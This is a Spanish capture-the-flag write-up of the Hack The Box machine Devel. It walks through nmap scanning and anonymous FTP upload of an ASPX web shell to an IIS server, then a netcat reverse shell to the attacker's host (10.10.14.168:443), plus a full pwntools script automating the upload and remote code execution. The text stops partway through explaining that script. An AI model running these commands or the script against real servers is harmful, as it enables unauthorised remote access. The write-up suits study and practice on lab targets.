






<h3 style="text-align:center">DESCRIPCIÓN</h3><hr>

En este post realizaremos el write up de la máquina Devel. Tocaremos los conceptos de FTP, Privilege Escalation, IIS Servide  haremos una explotación de la vulnerabilidad MS11-046


<h3 style="text-align:center">INDICE</h3><hr>

- [Reconocimiento](#fase-de-reconocimiento)
    - [Enumeración de puertos](#enumeracion-de-puertos)
    - [Microsoft IIS](#microsoftiss)
    - [Enumeración de servicios](#enumeracion-de-servicios)
- [Explotación](#explotacion)
- [Escalada de privilegios](#escalada-de-privilegios)
    - [Flags](#flags)
- [Autores y referencias](#autores-y-referencias)


<h3 style="text-align:center" id="fase-de-reconocimiento">RECONOCIMIENTO</h3><hr>


El objetivo principal de la etapa de reconocimiento es obtener una visión general de la infraestructura, sistemas, aplicaciones y posibles puntos débiles de la organización o sistema que se va a someter a la prueba de penetración. Esta información es esencial para planificar y ejecutar el resto del proceso de pentesting de manera más efectiva.

Durante la etapa de reconocimiento, el equipo de pentesting puede realizar diferentes acciones y técnicas, que incluyen:

1.`Búsqueda de información pública:` Se recopila información de dominios, subdominios, direcciones IP, registros de DNS, información de contacto de la empresa, etc., que está disponible públicamente a través de fuentes como el sitio web de la empresa, registros WHOIS, redes sociales, motores de búsqueda, entre otros.

2.`Escaneo de red:` Se utilizan herramientas de escaneo de puertos y servicios para identificar los sistemas en línea y los puertos abiertos en el objetivo. Esto ayuda a tener una idea de la infraestructura de red y los servicios disponibles.

3.`Enumeración de servicios:` Una vez identificados los servicios y puertos abiertos, se intenta obtener información más detallada sobre los servicios, como las versiones de software, para determinar si existen vulnerabilidades conocidas asociadas con esos servicios.

4.`Búsqueda de subdominios y directorios ocultos:` Se busca información adicional sobre posibles subdominios, directorios ocultos o páginas web no enlazadas públicamente, lo que podría revelar puntos de entrada adicionales o información sensible.

5.`Análisis de arquitectura de red:` Se investiga la topología de la red para comprender la relación entre diferentes sistemas y cómo se conectan, lo que ayuda a identificar posibles rutas para movimientos laterales.

6.`Búsqueda de vulnerabilidades conocidas:` Se investigan bases de datos de vulnerabilidades conocidas y bases de datos de exploits para identificar posibles vulnerabilidades que puedan existir en el software o servicios utilizados por el objetivo.

- Lo primero que vamos hacer es un ping a la maquina victima ping -c 1 10.10.10.5 ping: Es el comando utilizado para enviar solicitudes de eco (ping) a una dirección IP específica para verificar la conectividad de red y la latencia de la conexión. -c 1: Es una opción que se utiliza para especificar el número de solicitudes de eco que se enviarán. En este caso, se envía solo una solicitud (-c 1). 10.10.10.5: Es la dirección IP del host o máquina que será objeto del comando ping.

```ruby
ping -c 1 10.10.10.5
PING 10.10.10.5 (10.10.10.5) 56(84) bytes of data.
64 bytes from 10.10.10.5: icmp_seq=1 ttl=127 time=85.0 ms

--- 10.10.10.5 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 84.979/84.979/84.979/0.000 ms
```
El TTL-->127 indica que es una máquina Windows


<h3 style="text-align:center" id="enumeracion-de-puertos">ENUMERACIÓN DE PUERTOS</h3><hr>


Realizamos un escaneo de puertos usando la herramienta `nmap`:

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.5 -oG scanPorts`

Veamos el significado de cada opción utilizada en el comando:

- `nmap`: Es el comando para ejecutar la herramienta de escaneo de puertos `nmap`.

- `-p-`: Esta opción indica que se deben escanear todos los puertos, es decir, desde el puerto 1 hasta el puerto 65535.

- `--open`: Filtra los resultados del escaneo para mostrar solo los puertos que están abiertos, es decir, aquellos que responden a la solicitud de escaneo.

- `-sS`: Indica un escaneo de tipo "SYN scan". Este tipo de escaneo envía paquetes SYN (sincronización) a los puertos y analiza las respuestas para determinar si están abiertos, cerrados o filtrados por firewall.

- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes. En este caso, se envían al menos 5000 paquetes por segundo.

- `-vvv`: Habilita el modo de salida muy detallado, lo que significa que se mostrarán niveles de verbosidad muy altos para obtener información detallada del escaneo.

- `-n`: Indica que no se realice la resolución de DNS para las direcciones IP, lo que acelera el escaneo.

- `-Pn`: Esta opción indica que no se realice el "ping" para determinar si los hosts están en línea o no. Se ignoran las respuestas del ping y se escanea directamente.

- `10.10.10.5`: Es la dirección IP del objetivo que será escaneado.

- `-oG scanPorts`: Especifica que se debe guardar la salida del escaneo en un formato "grepable" (formato de texto plano) con el nombre de archivo "scanPorts".

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.5 -oG scanPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 20:38 -05
Initiating SYN Stealth Scan at 20:38
Scanning 10.10.10.5 [65535 ports]
Discovered open port 80/tcp on 10.10.10.5
Discovered open port 21/tcp on 10.10.10.5
Completed SYN Stealth Scan at 20:39, 26.35s elapsed (65535 total ports)
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.083s latency).
Scanned at 2023-07-24 20:38:38 -05 for 27s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.42 seconds
           Raw packets sent: 131087 (5.768MB) | Rcvd: 22 (968B)
```
<br>
Escaneamos al objetivo con los scripts básicos de reconocimiento de nmap, apuntando a los puertos abiertos en busca de más información.
Los resultados incluirán información sobre los servicios que se están ejecutando en los puertos escaneados y sus versiones correspondientes.

`nmap -sCV -p21,80 10.10.10.5 -oN targeted`
```ruby
❯ nmap -sCV -p21,80 10.10.10.5 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 20:41 -05
Nmap scan report for 10.10.10.5
Host is up (0.084s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 07-24-23  03:35AM                 1398 aspx_cmd.aspx
| 07-24-23  08:04AM                18640 CLSID.list
| 07-24-23  07:39PM                 1442 cmd.aspx
| 07-24-23  05:30AM                 1581 cmdtest.asp
| 07-24-23  07:08AM                 1580 GetCLSID.ps1
| 03-17-17  05:37PM                  689 iisstart.htm
| 07-24-23  07:33AM                72846 Invoke-ConPtyShell.ps1
| 07-24-23  07:49AM                 4339 Invoke-PowerShellTcp.ps1
| 07-24-23  08:09AM               263680 JuicyPotato.exe
| 07-24-23  04:47PM                 2910 latShell.aspx
| 07-24-23  03:35AM                59392 nc.exe
| 07-24-23  08:35AM                 2395 result.log
| 07-24-23  05:09AM                 2907 rs_aspx.aspx
| 07-24-23  05:37AM                16392 shell.aspx
| 07-24-23  04:25AM                38381 tess.asp
| 07-24-23  04:34AM                38795 test.aspx
| 07-24-23  04:40AM                38583 test1.aspx
| 07-24-23  04:42AM                 2925 test2.aspx
| 07-24-23  05:40AM                 2916 test3.aspx
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.69 seconds

```

1. Puerto 21/tcp: El servicio que se está ejecutando en este puerto es un servidor FTP (File Transfer Protocol) de Microsoft (Microsoft ftpd). Además, se puede acceder de forma anónima (Anonymous FTP login allowed) sin necesidad de autenticación.
    
2. Puerto 80/tcp: El servicio que se está ejecutando en este puerto es un servidor HTTP (Hypertext Transfer Protocol) de Microsoft IIS (Internet Information Services) versión 7.5.

- Probamos si podemos ingresar por ftp, ya que podemos ingresar sin contraseña con el usuario anonymous.

```ruby
❯ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:balthael): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
07-24-23  03:35AM                 1398 aspx_cmd.aspx
07-24-23  08:04AM                18640 CLSID.list
07-24-23  07:39PM                 1442 cmd.aspx
07-24-23  05:30AM                 1581 cmdtest.asp
07-24-23  07:08AM                 1580 GetCLSID.ps1
03-17-17  05:37PM                  689 iisstart.htm
07-24-23  07:33AM                72846 Invoke-ConPtyShell.ps1
07-24-23  07:49AM                 4339 Invoke-PowerShellTcp.ps1
07-24-23  08:09AM               263680 JuicyPotato.exe
07-24-23  04:47PM                 2910 latShell.aspx
07-24-23  03:35AM                59392 nc.exe
07-24-23  08:35AM                 2395 result.log
07-24-23  05:09AM                 2907 rs_aspx.aspx
07-24-23  05:37AM                16392 shell.aspx
07-24-23  04:25AM                38381 tess.asp
07-24-23  04:34AM                38795 test.aspx
07-24-23  04:40AM                38583 test1.aspx
07-24-23  04:42AM                 2925 test2.aspx
07-24-23  05:40AM                 2916 test3.aspx
07-24-23  07:07AM                  285 test_clsid.bat
03-17-17  05:37PM               184946 welcome.png
07-24-23  05:46AM              2029568 winp.exe
07-24-23  05:47AM                35948 winPEAS.bat
07-24-23  05:41AM              2029568 winPEASany.exe
226 Transfer complete.
ftp> 
```

Vemos un welcome.png si queremos descargarla a nuestra maquina para verla, hacemos lo siguiente:
1. nos podemos en modo Binary
2. `get welcome.png`
```ruby
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:balthael): anonymous 
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> get welcome.png 
local: welcome.png remote: welcome.png
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
184946 bytes received in 0.73 secs (248.2746 kB/s)
```

Como estamos en una kitty  con `kitty kitten icat welcome.png` podemos verla:


También vemos que el puerto 80 esta abierto donde tiene un Microsoft IIS, así que vamos a ver la pagina web. 

<h3 style="text-align:center" id="microsoftiss">MICROSOFT IIS</h3><hr>

Microsoft IIS (Internet Information Services) es un conjunto de servicios de servidor web desarrollados por Microsoft que se ejecutan en sistemas operativos Windows. IIS permite a los usuarios hospedar sitios web y aplicaciones web en un servidor para que puedan ser accesibles a través de Internet o una red local.

Algunas de las características y funciones principales de IIS son las siguientes:

1. Servidor web: IIS es un servidor web que se utiliza para entregar contenido web a los navegadores de los usuarios. Soporta los protocolos HTTP, HTTPS, FTP, FTPS y SMTP, lo que permite servir diferentes tipos de contenido y proporcionar opciones de seguridad para las transferencias de datos.
    
2. Hospedaje de sitios web: IIS permite a los usuarios hospedar múltiples sitios web en un solo servidor. Cada sitio web puede tener su propio dominio o dirección IP, lo que facilita el alojamiento de varios sitios en un mismo servidor físico.
    
3. Soporte para aplicaciones web: IIS es capaz de alojar aplicaciones web desarrolladas en diferentes tecnologías, como ASP.NET, PHP, Python y más. Proporciona un entorno de tiempo de ejecución para estas aplicaciones, permitiéndoles funcionar correctamente y responder a las solicitudes de los clientes.
    
4. Autenticación y autorización: IIS ofrece opciones de autenticación y autorización para proteger los sitios web y aplicaciones web de accesos no autorizados. Puede integrarse con diferentes sistemas de autenticación, como Active Directory, y proporcionar distintos niveles de acceso a los usuarios.
    
5. Configuración basada en roles: IIS utiliza el concepto de roles para gestionar diferentes funciones y características del servidor. Cada rol tiene funcionalidades específicas, como el rol de servidor web, el rol de servidor FTP y otros roles adicionales que se pueden agregar según sea necesario.
    
6. Registro y monitoreo: IIS registra eventos y actividades importantes relacionadas con el servidor y los sitios web, lo que facilita el monitoreo y la solución de problemas en caso de problemas o incidentes.
    
7. Extensibilidad: IIS es altamente extensible y se puede personalizar mediante módulos y complementos para agregar funcionalidades adicionales según los requisitos específicos del servidor y las aplicaciones que se están ejecutando.

<h3 style="text-align:center" id="enumeracion-de-servicios">ENUMERACIÓN DE SERVICIOS</h3><hr>

Hacemos un escaneo con whatweb `whatweb http://10.10.10.5`
```ruby
❯ whatweb http://10.10.10.5
http://10.10.10.5 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/7.5], IP[10.10.10.5], Microsoft-IIS[7.5][Under Construction], Title[IIS7], X-Powered-By[ASP.NET]
```
- Vamos a probar si puedo escribir archivos en en ftp 
- Creamos un archivo llamado prueba.txt donde vamos alojar whoami y lo subimos al ftp.
`whoami > prueba.txt`

```ruby
ftp> put prueba.txt
local: prueba.txt remote: prueba.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
6 bytes sent in 0.00 secs (217.0139 kB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
07-24-23  03:35AM                 1398 aspx_cmd.aspx
07-24-23  08:04AM                18640 CLSID.list
07-24-23  07:39PM                 1442 cmd.aspx
07-24-23  05:30AM                 1581 cmdtest.asp
07-24-23  07:08AM                 1580 GetCLSID.ps1
03-17-17  05:37PM                  689 iisstart.htm
07-24-23  07:33AM                72846 Invoke-ConPtyShell.ps1
07-24-23  07:49AM                 4339 Invoke-PowerShellTcp.ps1
07-24-23  08:09AM               263680 JuicyPotato.exe
07-24-23  04:47PM                 2910 latShell.aspx
07-24-23  03:35AM                59392 nc.exe
07-25-23  05:07AM                    6 prueba.txt
07-24-23  08:35AM                 2395 result.log
07-24-23  05:09AM                 2907 rs_aspx.aspx
07-25-23  05:01AM                 2907 shell.aspx
07-25-23  04:47AM                20881 shell.php
07-24-23  04:25AM                38381 tess.asp
07-24-23  04:34AM                38795 test.aspx
07-24-23  04:40AM                38583 test1.aspx
07-24-23  04:42AM                 2925 test2.aspx
07-24-23  05:40AM                 2916 test3.aspx
07-24-23  07:07AM                  285 test_clsid.bat
03-17-17  05:37PM               184946 welcome.png
07-24-23  05:46AM              2029568 winp.exe
07-24-23  05:47AM                35948 winPEAS.bat
07-24-23  05:41AM              2029568 winPEASany.exe
226 Transfer complete.
```

Ahora vemos si la Web lo interpreta y de esa manera concluimos que esta sincronizado el ftp con web.

<h3 style="text-align:center" id="explotacion">EXPLOTACIÓN</h3><hr>


- Como es un servicio IIS debemos subir un archivo con la extensión .aspx 
- Si buscamos en nuestra máquina archivos con extensión  .aspx nos arroja muchos, en esta caso vamos a usar uno de cmd para que la web nos de un cmd. 

```ruby
❯ locate .aspx | grep cmd
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
/usr/share/webshells/aspx/cmdasp.aspx
```

- Vamos a usar el de seclists `/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx` y lo subimos al servidor web por ftp.

```ruby
ftp> put cmd.aspx
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (72.3789 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
07-24-23  03:35AM                 1398 aspx_cmd.aspx
07-24-23  08:04AM                18640 CLSID.list
07-25-23  05:20AM                 1442 cmd.aspx
07-24-23  05:30AM                 1581 cmdtest.asp
07-24-23  07:08AM                 1580 GetCLSID.ps1
03-17-17  05:37PM                  689 iisstart.htm
07-24-23  07:33AM                72846 Invoke-ConPtyShell.ps1
07-24-23  07:49AM                 4339 Invoke-PowerShellTcp.ps1
07-24-23  08:09AM               263680 JuicyPotato.exe
07-24-23  04:47PM                 2910 latShell.aspx
07-24-23  03:35AM                59392 nc.exe
07-24-23  08:35AM                 2395 result.log
07-25-23  05:12AM                 2739 reverse-shell.aspx
07-24-23  05:09AM                 2907 rs_aspx.aspx
07-25-23  05:01AM                 2907 shell.aspx
07-25-23  04:47AM                20881 shell.php
07-24-23  04:25AM                38381 tess.asp
07-24-23  04:34AM                38795 test.aspx
07-24-23  04:40AM                38583 test1.aspx
07-24-23  04:42AM                 2925 test2.aspx
07-24-23  05:40AM                 2916 test3.aspx
07-24-23  07:07AM                  285 test_clsid.bat
03-17-17  05:37PM               184946 welcome.png
07-24-23  05:46AM              2029568 winp.exe
07-24-23  05:47AM                35948 winPEAS.bat
07-24-23  05:41AM              2029568 winPEASany.exe
226 Transfer complete.
```


- De esta manera comprobamos que tenemos una forma potencial de hacer ejecución remota de comandos, ahora lo que tenemos que hacer es ganar acceso a la máquina.

- Como primera medida vamos a subir el binario  netcat al servidor, si buscamos en nuestra máquina `locate nc.exe` 
```ruby
❯ locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
```
Lo copiamos en nuestra carpeta de trabajo
```ruby
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```
Ahora lo subimos al ftp, pero ten en cuenta que lo debes hacer en modo binary porque vas a subir un binario.

```ruby
ftp> bynari
?Invalid command
ftp> binary
200 Type set to I.
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28160 bytes sent in 0.00 secs (526.5778 MB/s)
```
- Para buscar el binario de nc por lo general se guarda en inetpub recordemos que es una carpeta específica utilizada por Microsoft Internet Information Services (IIS) para almacenar los archivos y recursos asociados con los sitios web y aplicaciones web alojados en el servidor. El nombre "inetpub" es una abreviatura de "Internet Publishing" (Publicación en Internet) y es el nombre predeterminado de la carpeta en la cual IIS aloja los contenidos web.

`dir C:\inetpub\wwwroot\`


- Ahora como ya se donde se aloja, lo ejecuto enviándome una consola interactiva  a mi maquina de atacante.

`C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.168 443` y me pongo en escucha por el puerto 443 voy a recibir la consola y tenemos acceso a la máquina.

```ruby
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.168] from (UNKNOWN) [10.10.10.5] 50450
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
iis apppool\web
```


- Vamos a crearnos ahora un script de python para hacer la introducción de manera mas ágil y con eso practicamos Python ofensivo. 

```python
#!/usr/bin/python3

from pwn import *
from ftplib import FTP
import requests, re , pdb, time, threading
import signal
import sys

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)


malicious_files = ["console.aspx","nc.exe"]

#Variables Globales
console_url = "http://10.10.10.5/%s" % malicious_files[0] 
lport = 443

def uploadFiles():

    ftp = FTP()
   # ftp.set_debuglevel(2)
    ftp.connect("10.10.10.5", 21)
    ftp.login('anonymous', '')

    for malicious_file in malicious_files:

        ftp.storbinary("STOR %s" % malicious_file, open(malicious_file, "rb"))

def makeRequest():
    
    s = requests.session()

    r = s.get(console_url)

    post_data ={
             '__VIEWSTATE': re.findall(r'id="__VIEWSTATE" value="(.*?)"', r.text)[0],
             '__EVENTVALIDATION': re.findall(r'id="__EVENTVALIDATION" value="(.*?)"', r.text)[0], 
             'txtArg': 'C:\inetpub\wwwroot\%s -e cmd 10.10.14.168 443' % malicious_files[1],
             'testing': 'excute',
     }
     
     #RCE
     r = s.post(console_url,data=post_data)
     
 if __name__ == '__main__':
 
     uploadFiles()
     try:
         threading.Thread(target=makeRequest, args=()).start()
     except Exception as e:
         log.error(str(e))
 
     shell = listen(lport, timeout=20).wait_for_connection()
 
     shell.interactive()
```

1. `#!/usr/bin/python3`: Esta línea es un shebang que especifica que el script debe ejecutarse con Python 3.

2. `from pwn import *`: Se importa el módulo `pwn`. Este módulo es una herramienta para escribir exploits y trabajar con binarios y conexiones de red de una manera sencilla.

3. `from ftplib import FTP`: Se importa la clase FTP del módulo `ftplib`, que permite interactuar con servidores FTP.

4. `import requests, re , pdb, time, threading`: Se importan otros módulos utilizados en el script: `requests` para hacer solicitudes HTTP, `re` para trabajar con expresiones regulares, `pdb` para el depurador (que no parece estar en uso), `time` para trabajar con funciones relacionadas con el tiempo, y `threading` para trabajar con hilos (threads).

5. `import signal`: Se importa el módulo `signal`, que permite trabajar con señales del sistema (por ejemplo, manejar la señal de Ctrl+C).

6. `import sys`: Se importa el módulo `sys`, que proporciona funciones y variables que interactúan con el intérprete de Python.

7. `def def_handler(sig, frame):`: Se define una función llamada `def_handler`, que será utilizada para manejar la señal de Ctrl+C. Recibe dos argumentos, `sig` (el número de la señal recibida) y `frame` (el marco de la pila de llamadas al momento de recibir la señal).

8. `print("\n\n[!] Saliendo...\n")`: Imprime un mensaje en la consola indicando que el programa está saliendo.

9. `sys.exit(1)`: Hace que el programa salga con un código de error 1, indicando que la finalización no fue exitosa.

10. `signal.signal(signal.SIGINT, def_handler)`: Aquí se establece que cuando se reciba la señal de Ctrl+C (SIGINT), se llamará a la función `def_handler` definida anteriormente.

11. `malicious_files = ["console.aspx","nc.exe"]`: Se define una lista llamada `malicious_files` que contiene dos nombres de archivos, "console.aspx" y "nc.exe". Estos archivos parecen ser archivos maliciosos que el script usará más adelante.

12. `console_url = "http://10.10.10.5/%s" % malicious_files[0]`: Se define una variable llamada `console_url`, que contiene una URL formada por una dirección IP (10.10.10.5) y el primer elemento de la lista `malicious_files` ("console.aspx"). La URL resultante será utilizada para hacer solicitudes HTTP.

13. `lport = 443`: Se define una variable llamada `lport` y se le asigna el valor 443.

14. `def uploadFiles():`: Se define una función llamada `uploadFiles`, que se encarga de subir archivos a través de FTP al servidor con dirección IP 10.10.10.5.

15. `ftp = FTP()`: Se crea una instancia del objeto `FTP`.

16. `ftp.connect("10.10.10.5", 21)`: Se establece una conexión con el servidor FTP ubicado en la dirección IP 10.10.10.5 y el puerto 21 (puerto estándar de FTP).

17. `ftp.login('anonymous', '')`: Se inicia sesión en el servidor FTP con el nombre de usuario "anonymous" y una contraseña vacía (esto es común en servidores FTP públicos).

18. `for malicious_file in malicious_files:`: Comienza un bucle `for` que recorrerá cada elemento de la lista `malicious_files`.

